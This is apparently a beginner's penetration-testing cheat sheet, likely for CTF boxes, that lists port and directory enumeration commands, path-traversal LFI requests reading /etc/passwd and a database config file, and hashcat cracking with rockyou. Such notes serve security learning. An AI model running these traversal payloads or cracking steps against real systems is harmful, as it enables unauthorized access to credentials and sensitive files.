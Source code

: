 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
   




---------------------ENUMERATION---------------
1. rustscan --ulimit 10000 -a <IP> -- -sC -Pn
   or
   nmap -sCV -p- <IP>
2. dirsearch -u <IP>
   and
   gobuster vhost -u http://<domain> -w /usr/share/wordlists/dirb/small.txt -k --append-domain
3. (FOR DIR ENUMERATION ON YOUR KNOWN DOMAINS)--> gobuster dir http://<example.domain.com>/ -w /usr/share/wordlists/dirb/cmmon.txt


--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1



-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt

